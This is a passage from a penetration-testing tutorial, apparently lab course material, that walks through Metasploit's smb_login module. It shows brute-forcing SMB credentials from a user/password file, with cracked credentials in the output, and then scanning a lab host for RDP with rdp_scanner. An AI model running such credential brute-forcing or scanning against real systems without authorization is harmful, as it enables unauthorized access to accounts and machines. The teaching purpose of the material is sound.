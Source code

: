 ```
msf6 auxiliary(scanner/smb/smb_login) > creds
Credentials
===========

host            origin          service        public  private    realm  private_type  JtR Format
----            ------          -------        ------  -------    -----  ------------  ----------
192.168.120.11  192.168.120.11  445/tcp (smb)  Offsec  Qwerty09!         Password      
```

Although this run was successful, this method will not scale well. To test a larger user base with a variety of passwords, we could instead use the _USERPASS_FILE_ parameter, which instructs the module to use a file containing users and passwords separated by space, with one pair per line.

```
msf6 auxiliary(scanner/smb/smb_login) > set USERPASS_FILE /home/kali/users.txt
USERPASS_FILE => /home/kali/users.txt
msf6 auxiliary(scanner/smb/smb_login) > run

[*] 192.168.120.11:445    - 192.168.120.11:445 - Starting SMB login bruteforce
[+] 192.168.120.11:445    - 192.168.120.11:445 - Success: 'WORKSTATION\Offsec:Qwerty09!'
[-] 192.168.120.11:445    - 192.168.120.11:445 - Failed: 'WORKSTATION\bob:Qwerty09!',
[-] 192.168.120.11:445    - 192.168.120.11:445 - Failed: 'WORKSTATION\bob:password',
[-] 192.168.120.11:445    - 192.168.120.11:445 - Failed: 'WORKSTATION\alice:Qwerty09!',
[-] 192.168.120.11:445    - 192.168.120.11:445 - Failed: 'WORKSTATION\alice:password',
[-] 192.168.120.11:445    - 192.168.120.11:445 - Failed: 'WORKSTATION\:',
[*] 192.168.120.11:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Let's try out another module. In this example, we will try to identify machines listening on TCP port 3389, which indicates they might be accepting Remote Desktop Protocol (RDP) connections. To do this, we will invoke the scanner/rdp/rdp_scanner module.

```
msf6 auxiliary(scanner/smb/smb_login) > use auxiliary/scanner/rdp/rdp_scanner
msf6 auxiliary(scanner/rdp/rdp_scanner) > show options

Module options (auxiliary/scanner/rdp/rdp_scanner):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DETECT_NLA       true             yes       Detect Network Level Authentication (NLA)
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  rdesktop         no        The client computer name to report during connect, UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = random
   RHOSTS           192.168.120.11   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3389             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 192.168.120.11:3389   - Detected RDP on 192.168.120.11:3389   (Windows version: 10.0.18362) (Requires NLA: No)
[*] 192.168.120.11:3389   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This module successfully detected RDP running on one host and automatically added the results to the database.